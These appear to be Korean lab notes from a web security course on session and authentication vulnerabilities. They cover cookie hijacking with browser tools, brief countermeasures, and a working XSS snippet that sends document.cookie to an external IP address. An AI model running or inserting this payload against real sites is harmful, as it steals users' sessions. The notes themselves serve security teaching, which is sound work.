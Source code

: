 # 세션 및 인증 관리 취약점



## 세션 관리 취약점

---

### 발생원인

- 추측이 가능한 세션 ID

## 실습

---

- Live HTTP Headers 에서 관리자 쿠키(cookie) 값을 확인
- 브라우저 상단에서 쿠키 값 설정 (Edit Cookie)

    ![Untitled/Untitled.png](img/Session/session_1.png)

- 쿠키 값만을 사용한 접근

    ![Untitled/Untitled%201.png](img/Session/session_2.png)

(최근) 
쿠키 탈취로 인한 부적절한 서비스 접근을 방지하기 위해 Request Header 내 User-Agent 정보를 활용

```javascript
<div id='img'></div>
<script>document.getElementById("img").innerHTML="
<img src='http://70.12.225.87:8181/openeg/test/a.do?	sessionid="+document.cookie+"' />";
</script>
```

## 인증 관리의 취약점

---

- 인증 시 들어오는 데이터는 모두 비신뢰 데이터
- (대응) **서버에 있는 데이터와 입력 데이터와의 비교**
- 권고사항
    1. 모든 페이지에 로그아웃 버튼(또는 링크)가 노출되게 구현